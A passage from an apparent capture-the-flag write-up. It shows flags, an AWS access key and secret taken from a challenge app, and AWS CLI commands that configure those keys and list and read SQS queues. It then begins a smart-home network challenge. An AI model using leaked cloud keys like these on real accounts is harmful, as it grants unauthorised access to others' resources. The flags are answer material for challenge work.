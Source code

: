 ```java
        frame.getContentPane().add("Center", ta);
        frame.getContentPane().add("North", mb);
        frame.setVisible(true);
    }
```
The second flag is:
```
CTF{1ab1103d8248633dafa64f535d310037}
```
#### 3- QUEUEING (75 point)
The credentials from previous step:
```
BasicAWSCredentials("AKIA5ZG7KIXZPIQMEA6R", "RzqFX+nnW/Ut9GurorpPr3ya6zOfjw5CvQclBYxs")

withRegion("eu-west-2")

https://sqs.eu-west-2.amazonaws.com/947508626930/HappyBucketsApp
```
I installed aws cli tool and set configurations with this credentials.
Guide: https://docs.aws.amazon.com/cli/latest/userguide/cli-configure-files.html
```
$ aws configure
AWS Access Key ID : AKIA5ZG7KIXZPIQMEA6R
AWS Secret Access Key : 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
Default region name [eu-west-2]: 
Default output format [None]: 
```
After that i searched for mean of "queue" on aws services and found this documentation: https://docs.aws.amazon.com/cli/latest/reference/sqs/
I tried to get the list of queues:
```bash
shad0w@faruk:~$ aws sqs list-queues
{
    "QueueUrls": [
        "https://sqs.eu-west-2.amazonaws.com/947508626930/FlagQueue",
        "https://sqs.eu-west-2.amazonaws.com/947508626930/HappyBucketsApp"
    ]
}

```
After that i tried to get message from the Flag queue:
```bash
shad0w@faruk:~$ aws sqs receive-message --queue-url https://sqs.eu-west-2.amazonaws.com/947508626930/HappyBucketsApp

...
...
...
```
The last flag is:
```
CTF{}
// I cant copy the flag because aws queue is not accesable now. (28 Jan 2021)
```
---
### Santas Smart Home (Network) 200 Point
This challenge have 2 steps.
#### 1- Santas Smart Home (100 point)
On the webpage we can see only login screen and we dont have any password. After some enumeration we found that home asistant have logs files on error logs and we download the log file.